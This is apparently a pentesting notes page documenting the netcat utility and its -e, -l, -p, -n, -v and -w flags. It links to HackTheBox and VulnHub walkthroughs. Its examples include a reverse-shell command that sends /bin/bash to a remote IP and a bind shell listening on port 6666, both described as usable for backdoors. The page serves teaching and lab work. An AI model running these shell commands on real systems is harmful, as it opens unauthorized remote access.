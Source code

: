 .. _netcat:

Netcat: The Network Swiss-Army Knife
====================================

.. index:: !netcat

+-----------+--------------------------------------+
|**OS**     | All major operating systems.         |
+-----------+--------------------------------------+
|**Website**| https://nc110.sourceforge.io/        |
+-----------+--------------------------------------+

+------------+---------------------------------------------------+
|                  **Reference  Walk-Throughs**                  |
+============+===================================================+
|`HackTheBox`|:ref:`Lame <Lame Exploitation>`                    |
+------------+---------------------------------------------------+
|`VulnHub`   |:ref:`Kioptrix Level 1 <Kioptrix Lv1 Samba>`       |
+------------+---------------------------------------------------+



What is netcat?
---------------
From the `homepage <https://nc110.sourceforge.io/>`_:

  `Netcat` is a simple Unix utility which reads and writes data across network connections, using TCP or UDP protocol.

While `netcat` might sound like a simple utility (it is), it is useful for an incredibly broad variety of network applications. For this reason, it has become an essential part of every hacker's toolkit.

`Netcat` was originally written for Unix-like systems. However, it has been ported to pretty much every OS on the planet.


How does it work?
-----------------
`Netcat` establishes raw TCP and UDP connections and allows you to interact with those connections manually (via standard input and output) or via scripts. Where most similar utilities (such as `telnet`) terminate the connection upon receipt of an "End-of-File" (EOF) byte, `netcat` instead keeps the connection open, transmitting and receiving data until the connection is broken by the network (or manually closed).

`Netcat` can also act as a server, binding to a specific port and listening for incoming connections. It can be scripted or accessed manually, regardless of whether it's used as client or server.


Using netcat
------------
To use `netcat`, simply type ``nc`` on the command line, along with whatever arguments you wish to pass. Examples:

.. code-block:: none

    nc -vnlp 6666
    nc google.com 80
    nc -vn -w 3 10.10.10.3 6200
    nc -nlp 6666 -e /bin/bash

At a minimum, `netcat` requires an IP and port number when running as a client, or a port number when running as a server.


``-e``: Pipe an Executable
~~~~~~~~~~~~~~~~~~~~~~~~~~
**Example:** ``nc -e /bin/bash 10.10.14.15 6666``

The ``-e`` flag tells `netcat` to bind the specified executable to the established network connection. Incoming data from the network is sent to the executable's standard input, and standard output is sent back over the network. This functionality can be used to establish backdoors in systems, among other actions. This is why the ``-e`` flag is commonly referred to as the "gaping security hole" in `netcat`, despite working exactly as intended.

.. note::

   Most modern OSes ship with a modified version of `netcat` with the ``-e`` option disabled, so as to close the "gaping security hole." However, even with these altered versions, `netcat` can be used as a backdoor; it just takes a little more effort.


``-l`` and ``-p``: Bind and Listen on Port
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
**Example:** ``nc -lp 6666``

Using the ``-l`` flag tells `netcat` to bind and listen on the port specified by the ``-p`` flag.

.. note::

   On most OSes, ports 0 through 1023 are reserved for privileged services, and require administrative privileges before they can be bound. If you wish to use `netcat` on one of these ports, you'll need to do so as a privileged user (such as ``root``).


``-n``: Skip DNS Name Resolution
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
**Example:** ``nc -n 10.10.10.3 21``

When `netcat` establishes a connection to a remote system, it may attempt to perform DNS resolution for the provided host name. When providing an IP, you can skip this name resolution by using the ``-n`` flag.


``-v``: Verbose Output
~~~~~~~~~~~~~~~~~~~~~~
**Example:** ``nc -v 10.10.10.3 6200``

Typically, the only output `netcat` provides is the output sent from the network. The ``-v`` flag tells `netcat` to provide more verbose output, including data about the status of the connection. It can be helpful for understanding more about what's going on behind the scenes.


``-w``: Close Connection After Time-Out
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
**Example:** ``nc -v -w3 10.10.10.3 6200``

After establishing a connection, `netcat` will leave the connection open for as long as you allow it to run, or until the network closes the connection. This can be troublesome when you want `netcat` to close when data is no longer being sent.

In order to close a `netcat` connection automatically, you can specify a time-out value using the ``-w`` flag, which tells `netcat` how long to wait before closing an inactive connection.
